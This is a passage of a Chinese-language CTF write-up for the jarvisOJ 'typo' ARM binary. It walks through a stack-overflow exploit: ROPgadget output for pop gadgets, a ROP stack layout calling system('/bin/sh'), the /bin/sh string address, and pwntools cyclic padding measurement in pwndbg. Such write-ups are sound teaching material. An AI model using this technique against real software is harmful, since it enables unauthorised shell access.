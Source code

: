 程序的输入点不多，很容易就能找到溢出点

### 构造 ROP 
因此思路就很明显了，利用栈溢出构造 **system("/bin/sh")**， 先找一下 gadgets
```bash
jarvisOJ_typo [master●●] ROPgadget --binary ./typo --only "pop"   
Gadgets information
============================================================
0x00020904 : pop {r0, r4, pc}
0x00068bec : pop {r1, pc}
0x00008160 : pop {r3, pc}
0x0000ab0c : pop {r3, r4, r5, pc}
0x0000a958 : pop {r3, r4, r5, r6, r7, pc}
0x00014a70 : pop {r3, r4, r7, pc}
0x000083b0 : pop {r4, pc}
0x00009284 : pop {r4, r5, pc}
0x000095b8 : pop {r4, r5, r6, pc}
0x000082e8 : pop {r4, r5, r6, r7, pc}
0x00023ed4 : pop {r4, r5, r7, pc}
0x00023dbc : pop {r4, r7, pc}
0x00014068 : pop {r7, pc}

Unique gadgets found: 13
```

我们只需要控制第一个参数，因此可以选择 `pop {r0, r4, pc}` 这条 gadgets, 来构造如下的栈结构
```
+-------------+
|             |
|  padding    |
+-------------+
|  padding    | <- frame pointer
+-------------+ 
|gadgets_addr | <- return address
+-------------+
|binsh_addr   |
+-------------+
|junk_data    |
+-------------+
|system_addr  |
+-------------+
```

这时还需要 padding 的长度和 system 以及 /bin/sh 的地址， /bin/sh 的地址用 ROPgadget 就可以找到
```bash
jarvisOJ_typo [master●●] ROPgadget --binary ./typo --string /bin/sh
Strings information
============================================================
0x0006cb70 : /bin/sh
```
padding 的长度可以使用 pwntools 的 **cyclic** 来很方便的找到
```assembly
pwndbg> cyclic 200
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
pwndbg> c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x62616164 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
──────────────────────────────────────────────────[ REGISTERS ]──────────────────────────────────────────────────
 R0   0x0
 R1   0xfffef024 ◂— 0x61616161 ('aaaa')
```